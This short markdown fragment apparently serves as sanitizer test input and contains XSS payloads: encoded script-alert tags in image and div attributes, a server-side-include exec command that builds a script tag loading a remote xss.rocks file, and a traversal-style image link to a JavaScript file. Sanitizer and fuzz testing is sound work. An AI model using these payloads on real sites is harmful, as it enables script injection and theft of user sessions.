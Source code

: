 ![

<img src='¼script¾alert(¢XSS¢)¼/script¾'>
<div dir="¼script¾alert(¢XSS¢)¼/script¾">¼script¾alert(¢XSS¢)¼/script¾</div>

<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->

](()
![a](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)
